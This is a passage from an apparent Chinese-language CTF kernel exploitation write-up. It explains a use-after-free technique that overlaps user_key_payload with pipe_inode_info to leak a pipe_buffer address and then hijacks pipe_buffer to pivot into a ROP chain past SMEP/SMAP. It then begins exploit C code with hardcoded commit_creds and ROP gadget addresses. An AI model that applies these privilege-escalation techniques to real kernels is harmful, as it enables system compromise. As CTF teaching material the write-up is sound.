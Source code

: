 又由于，我们需要构造`rop`链，而题目开启了`smep & smap`等保护，因此将`rop`链放在哪里是一个需要思考的问题：`rop`链需要位于内核中可写的位置。这里，考虑如下因素：

- `pipe_buffer`调用`release`时，其`rsi`为`pipe_buffer`自身的地址，或许我们可以利用`gadget`将栈迁移到`pipe_buffer`
- `pipe_buffer`中函数指针表我们需要控制，控制到自身是个不错的选择。而我们并不知道`pipe_buffer`的地址。

- `pipe_inode_info`中，存在一个`pipe_buffer`的指针可以获取`pipe_buffer`的地址。

那么，我们考虑使用`user_key_payload`越界读，读到`pipe_inode_info`的`pipe_buffer`指针。

题目可以分配两个`obj`，因此我们这里不再采用堆喷射，而是直接整两个`UAF obj`，然后申请`user_key_payload`，就可以让其中一个`obj`作为`user_key_payload`了。随后，我们再利用题目功能释放申请到的这个`user_key_payload`，并打开`pipe`，即可让`pipe_inode_info`和`user_key_payload`重叠（`user_key_payload`的大小是可控于任何`kmalloc`的，因此这里需要师傅构造堆风水）。重叠时，即可刚好让`user_key_payload`的`datalen`写为`0xffff`。那么，我们就可以利用`user_key_payload`越界读，读到`pipe_buffer`的地址了。

而对于`pipe_buffer`，我们通过`UAF`，将其完全滴控制即可~

### 漏洞利用

到这里，终于完结撒花~

下面是整个漏洞利用流程的`exp`，带有详细注释~

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <stdarg.h>
#include "ltfallkernel.h"

int file_fd = -1;

#define KEY_SPRAY_NUM 40
#define PIPE_INODE_INFO_SZ 192
#define PIPE_BUFFER_SZ 1024

#define USER_FREE_PAYLOAD_RCU 0Xffffffff813d8210
#define COMMIT_CREDS 0Xffffffff81095c30
#define PREPARE_KERNEL_CRED 0Xffffffff81096110
#define INIT_CRED 0Xffffffff82850580
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0Xffffffff81e00ed0

#define PUSH_RSI_POP_RSP_POP_RBX_POP_RBP_POP_R12_RET 0xffffffff81250c9d
#define POP_RAX_RET 0xffffffff81000ddb
#define PUSH_RAX_RET 0xffffffff81001733
#define POP_RDI_RET 0xffffffff8106ab4d
#define PUSH_RDI_RET 0xffffffff8106c515
#define RET 0xffffffff81000341
#define XCHG_RDI_RAX_RET 0xffffffff81adfc70


typedef struct
{
    unsigned int index;
    unsigned int size;
    void *ptr;
} note;

void note_free(unsigned int index)
{
    note n = {
        .index = index,
    };
    ioctl(file_fd, 0xC0DECAFE, &n);
```